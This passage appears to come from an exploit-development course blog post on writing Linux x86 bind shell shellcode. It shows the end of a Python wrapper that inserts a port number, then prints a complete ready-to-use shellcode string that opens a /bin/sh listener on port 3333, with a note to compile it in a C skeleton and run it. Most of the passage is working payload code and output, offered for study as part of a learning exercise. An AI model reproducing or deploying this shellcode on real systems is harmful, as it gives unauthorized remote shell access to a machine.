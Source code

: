 ```
      port_num2 = str(port_num[2:])

      print ('"' + shell1 + "\\x" + port_num1 + "\\x" + port_num2 + shell2 + '";')

   except:
      print ("Port must be number")

```

For test we will generate bind shell code for port 3333:

![wrapper test](https://smarinovic.github.io/assets/img/slae_00006.png)

Resulting opcode:

```"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc9\x51\x51\x66\x68\x0d\x05\x66\x6a\x02\x89\xe1\x89\xc3\x66\xb8\x69\x01\xb2\x16\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\xb1\x02\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";```

we need to copy into skeleton.c, compile and run it, and as result bind_shell is listening on port 3333 as shown on following screen shot.

![wrapper test](https://smarinovic.github.io/assets/img/slae_00007.png)

## References ##

* [h0mbre](https://h0mbre.github.io/)  
* [Coffeegist](https://coffeegist.com/)  
* [Abatchy blog](https://www.abatchy.com/)
